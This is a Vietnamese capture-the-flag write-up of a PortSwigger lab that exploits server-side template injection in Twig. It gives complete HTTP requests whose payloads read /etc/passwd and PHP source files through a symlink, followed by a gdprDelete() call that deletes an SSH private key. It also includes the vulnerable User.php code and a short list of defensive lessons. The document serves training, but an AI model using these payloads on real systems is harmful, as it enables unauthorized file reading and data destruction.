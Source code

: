 # Write-up: Server-side template injection with a custom exploit

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine Twig, nơi đầu vào người dùng trong trường `blog-post-author-display` không được lọc, cho phép thực thi mã tùy ý. Bằng cách khai thác phương thức `setAvatar` để đọc file hệ thống và phương thức `gdprDelete` để xóa file, kẻ tấn công đọc được source code `User.php` và xóa file `/home/carlos/.ssh/id_rsa`, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong trường `blog-post-author-display`, sử dụng phương thức `setAvatar` để đọc file hệ thống, phân tích `User.php` để tìm phương thức `gdprDelete`, và xóa file `/home/carlos/.ssh/id_rsa` để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và truy cập chức năng hiển thị tên tác giả bài post.  
- Trong Burp Proxy, bắt request khi cập nhật trường `blog-post-author-display` và thử payload SSTI:  
  ```
  POST /my-account HTTP/2
  Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
  Cookie: session=...
  Content-Type: application/x-www-form-urlencoded

  blog-post-author-display={{7*7}}
  ```  
- Kết quả: Server trả về lỗi, xác nhận sử dụng template engine Twig:  
  ![Kết quả SSTI Twig](./images/1_twig.png)  

- Thử tải lên file avatar không phải ảnh (ví dụ: file text) để kiểm tra xử lý:  
    - Kết quả: Server báo lỗi, tiết lộ phương thức `setAvatar` của class `User` nhận hai tham số (`filename`, `mimetype`):  
  ![Lỗi setAvatar](./images/2_avatar.png)  

2. **Khai thác SSTI để đọc file hệ thống**  
- Sử dụng payload SSTI để gọi phương thức `setAvatar` và đọc file `/etc/passwd`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.setAvatar("/etc/passwd","image/png")
    ```  
    - Comment vào một post để kích hoạt payload, sau đó truy cập:  
    ```
    GET /avatar?avatar=wiener HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    ```  
- Kết quả: Nội dung file `/etc/passwd` được trả về, xác nhận payload hiệu quả:  
  ![Nội dung /etc/passwd](./images/3_etc.png)  
  ![Nội dung /etc/passwd](./images/6_etc.png)  

- Đọc source code file `avatar_upload.php`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.setAvatar("/home/carlos/avatar_upload.php","image/png")
    ```   
    ![Nội dung /etc/passwd](./images/3_setAvatar.png) 

- Comment vào post và truy cập `/avatar?avatar=wiener`.  
    ![Source avatar_upload.php](./images/4_avatar_wiener.png) 
- Kết quả: Đọc được source code `avatar_upload.php`, tiết lộ tham chiếu đến file `/home/carlos/User.php`:  
    ![Source avatar_upload.php](./images/5_source.png)  
   

- Đọc file `User.php`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.setAvatar("/home/carlos/User.php","image/png")
    ```  
- Comment vào post và truy cập `/avatar?avatar=wiener`.  
- Kết quả: Nội dung file `User.php`:  
    ```php
    <?php

    class User {
        public $username;
        public $name;
        public $first_name;
        public $nickname;
        public $user_dir;

        public function __construct($username, $name, $first_name, $nickname) {
            $this->username = $username;
            $this->name = $name;
            $this->first_name = $first_name;
            $this->nickname = $nickname;
            $this->user_dir = "users/" . $this->username;
            $this->avatarLink = $this->user_dir . "/avatar";

            if (!file_exists($this->user_dir)) {
                if (!mkdir($this->user_dir, 0755, true))
                {
                    throw new Exception("Could not mkdir users/" . $this->username);
                }
            }
        }

        public function setAvatar($filename, $mimetype) {
            if (strpos($mimetype, "image/") !== 0) {
                throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
            }

            if (is_link($this->avatarLink)) {
                $this->rm($this->avatarLink);
            }

            if (!symlink($filename, $this->avatarLink)) {
                throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
            }
        }

        public function delete() {
            $file = $this->user_dir . "/disabled";
            if (file_put_contents($file, "") === false) {
                throw new Exception("Could not write to " . $file);
            }
        }

        public function gdprDelete() {
            $this->rm(readlink($this->avatarLink));
            $this->rm($this->avatarLink);
            $this->delete();
        }

        private function rm($filename) {
            if (!unlink($filename)) {
                throw new Exception("Could not delete " . $filename);
            }
        }
    }

    ?>
    ```  
- **Phân tích**: Phương thức `gdprDelete` xóa file được liên kết bởi `avatarLink` và gọi `delete` để tạo file `disabled`. Có thể khai thác để xóa file tùy ý:  
    ![Source User.php](./images/5_user_php.png)  

3. **Khai thác để xóa file `/home/carlos/.ssh/id_rsa`**  
- Đặt `avatarLink` trỏ đến `/home/carlos/.ssh/id_rsa`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.setAvatar("/home/carlos/.ssh/id_rsa","image/png")
    ```  
- Comment vào post và truy cập `/avatar?avatar=wiener` để xác nhận symlink được tạo:  
- Gọi phương thức `gdprDelete` để xóa file `/home/carlos/.ssh/id_rsa`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.gdprDelete()
    ```  
- Comment vào post để kích hoạt payload.  
- Kết quả: File `/home/carlos/.ssh/id_rsa` bị xóa, lab xác nhận hoàn thành:  
    ![Lab hoàn thành](./images/7_solved.png)  

- **Ý tưởng payload**:  
  - Sử dụng SSTI để gọi `setAvatar` và tạo symlink đến file nhạy cảm, sau đó gọi `gdprDelete` để xóa file `/home/carlos/.ssh/id_rsa`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong Twig, sử dụng các phương thức như `setAvatar` và `gdprDelete` để đọc và xóa file hệ thống.  
- Nhận thức tầm quan trọng của việc lọc và kiểm tra đầu vào người dùng trong template engine, áp dụng nguyên tắc least privilege cho các phương thức nhạy cảm, và vô hiệu hóa thực thi mã tùy ý trong môi trường production.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** với Twig, nhấn mạnh tầm quan trọng của việc lọc đầu vào và bảo vệ các phương thức nhạy cảm để ngăn chặn đọc/xóa file trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*